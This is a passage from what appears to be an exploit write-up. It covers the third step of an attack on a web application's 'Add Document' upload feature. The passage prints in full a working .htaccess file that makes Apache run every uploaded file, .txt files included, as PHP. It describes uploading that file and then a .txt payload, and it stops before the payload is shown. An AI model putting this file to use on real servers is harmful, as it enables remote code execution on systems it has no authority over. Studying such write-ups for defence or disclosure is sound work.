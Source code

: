 <figure><img src="../../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

### Part 3 (leveraging feature _Add Document_) <a href="#part-3-leveraging-feature-add-document" id="part-3-leveraging-feature-add-document"></a>

The last step is the simplest, and is broken down into two sub-steps. The first is to upload a file in .htaccess format to leverage the Apache directives and allow .txt files to be interpreted by the PHP engine. The second is to upload a .txt file containing our payload.

File: .htaccess

```
<Files *>
  SetHandler application/x-httpd-php
</Files>

# Vroum! Vroum!
# We reactivate PHP engines for all versions in order to be targetless.
<IfModule mod_php.c>
  php_flag engine on
</IfModule>
<IfModule mod_php7.c>
  php_flag engine on
</IfModule>
<IfModule mod_php5.c>
  php_flag engine on
</IfModule>
```
